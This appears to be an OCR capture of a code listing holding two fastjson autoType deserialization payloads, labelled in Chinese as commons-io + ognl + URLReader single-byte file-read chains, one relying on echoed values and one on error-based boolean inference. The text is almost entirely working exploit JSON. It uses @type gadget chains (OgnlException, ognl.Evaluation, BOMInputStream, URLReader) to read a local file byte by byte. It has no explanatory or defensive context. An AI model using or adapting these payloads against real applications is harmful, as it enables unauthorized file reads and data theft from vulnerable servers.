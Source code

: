 commons-io + ognl + URLReader 单字节文件读取（回显情况观察数值）
```json
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{ "@type":"com.alibaba.fastjson.JSONObject",{  "@type":"java.lang.String"  "@type":"ognl.OgnlException",  "_evaluation":""}},"su16":{   "@type": "ognl.Evaluation",   "node": {       "@type": "ognl.ASTMethod",       "p": {           "@type": "ognl.OgnlParser",           "stream":
{
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
        "@type": "org.apache.commons.io.input.ReaderInputStream",
        "reader": {
          "@type": "jdk.nashorn.api.scripting.URLReader",
          "url": "file:///Users/su18/Downloads/1.txt"
          },
        "charsetName": "UTF-8",
        "bufferSize": 1024
      },"boms": [{"@type": "org.apache.commons.io.ByteOrderMark", "charsetName": "UTF-8", "bytes": [
98]}]
}}}},"su17" : {"$ref":"$.su16.node.p.stream"},"su18":{
"$ref":"$.su17.bOM.bytes"}}
```

commons-io + ognl + URLReader 单字节文件读取（报错布尔）
```json
[{"su15":{"@type":"java.lang.Exception","@type":"ognl.OgnlException",}},{"su16":{"@type":"java.lang.Class","val":{ "@type":"com.alibaba.fastjson.JSONObject",{  "@type":"java.lang.String"  "@type":"ognl.OgnlException",  "_evaluation":""}}},
{"su17":{   "@type": "ognl.Evaluation",   "node": {       "@type": "ognl.ASTMethod",       "p": {           "@type": "ognl.OgnlParser",           "stream":
{
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
        "@type": "org.apache.commons.io.input.ReaderInputStream",
        "reader": {
          "@type": "jdk.nashorn.api.scripting.URLReader",
          "url": "file:///Users/su18/Downloads/1.txt"
          },
        "charsetName": "UTF-8",
        "bufferSize": 1024
      },"boms": [{"@type": "org.apache.commons.io.ByteOrderMark", "charsetName": "UTF-8", "bytes": [
98]}]
}}}}},{"su18" : {"$ref":"$[2].su17.node.p.stream"}},{"su19":{
"$ref":"$[3].su18.bOM.bytes"}},{"su20":{   "@type": "ognl.Evaluation",   "node": {       "@type": "ognl.ASTMethod",       "p": {           "@type": "ognl.OgnlParser",           "stream":{     "@type": "org.apache.commons.io.input.BOMInputStream",     "delegate": {       "@type": "org.apache.commons.io.input.ReaderInputStream",       "reader":{"@type":"org.apache.commons.io.input.CharSequenceReader",
              "charSequence": {"@type": "java.lang.String"{"$ref":"$[4].su19"},"start": 0,"end": 0},       "charsetName": "UTF-8",       "bufferSize": 1024},"boms": [{"@type": "org.apache.commons.io.ByteOrderMark", "charsetName": "UTF-8", "bytes": [1]}]}}}}},{"su21" : {"$ref":"$[5].su20.node.p.stream"}}]
```
